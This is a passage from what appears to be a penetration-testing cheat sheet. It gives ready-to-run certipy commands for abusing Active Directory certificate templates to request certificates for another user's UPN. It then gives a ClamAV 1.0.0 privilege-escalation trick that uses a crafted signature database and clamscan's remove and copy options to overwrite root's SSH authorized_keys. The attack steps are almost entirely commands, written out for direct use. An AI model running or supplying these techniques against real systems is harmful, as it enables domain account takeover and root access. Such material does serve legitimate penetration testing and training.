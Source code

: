 ```c
$ certipy template -username <USERNAME>@<DOMAIN> -password <PASSWORD> -template Web -dc-ip <RHOST> -save-old
```

**Certificate Request**

Run the following command twice because of a current issue with `certipy`.

```c
$ certipy req -username <USERNAME>@<DOMAIN> -password <PASSWORD> -ca <CA> -target <FQDN> -template <TEMPLATE> -dc-ip <RHOST>
```

```c
$ certipy req -username <USERNAME>@<DOMAIN> -password <PASSWORD> -ca <CA> -target <FQDN> -template <TEMPLATE> -dc-ip <RHOST> -upn <USERNAME>@<DOMAIN> -dns <FQDN>
$ certipy req -username <USERNAME>@<DOMAIN> -password <PASSWORD> -ca <CA> -target <FQDN> -template <TEMPLATE> -dc-ip <RHOST> -upn <USERNAME>@<DOMAIN> -dns <FQDN> -debug
```

#### Start BloodHound Fork

```c
$ ./BloodHound --disable-gpu-sandbox
```

### ClamAV

#### File Replacement Privilege Escalation

* Vulnerable Version 1.0.0

```c
$ clamscan --version
ClamAV 1.0.0/26853/Fri Mar 24 07:24:11 2023
```

**Example**

Create a custom `authorized_keys` file to replace another one. Then create a custom `database` with the `hex value` of the string you want to parse for.

```c
$ printf ssh | xxd -p
```

**custom\_malware.db**

```c
Malware=737368
```

**Execution**

```c
$ clamscan --remove=yes /root/.ssh/authorized_keys -d custom_malware.db
$ clamscan authorized_keys --copy=/root/.ssh/ -d custom_malware.db
```

### Credentials File
